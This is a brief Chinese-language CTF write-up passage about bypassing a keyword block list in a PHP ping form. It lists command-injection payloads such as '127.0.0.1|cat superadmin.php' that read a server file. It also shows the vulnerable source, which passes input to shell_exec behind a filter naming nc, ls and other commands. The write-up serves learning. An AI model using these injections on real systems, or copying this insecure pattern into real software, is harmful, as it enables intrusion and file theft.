 估计就是ban了几个常见的命令

经过尝试可以使用下面的命令

```
127.0.0.1|cat superadmin.php
127.0.0.1|tac superadmin.php
127.0.0.1|more superadmin.php
127.0.0.1|less superadmin.php
```



![image-20250717101947280](./../../_media/image-20250717101947280.png)

```php
<?php
   if (isset($_POST['submitt']))
	{
        $word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
        $pinged=$_POST['pinger'];
        $newStr = str_replace($word, "", $pinged);
        if(strcmp($pinged, $newStr) == 0){
            $flag=1;
        }
        else{
            $flag=0;
        }
	}
	if ($flag==1){
		$outer=shell_exec("ping -c 3 $pinged");
		echo "<pre>$outer</pre>";
    }
?>
```

F12在源代码里面

可以看到ban掉了

```
$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
```


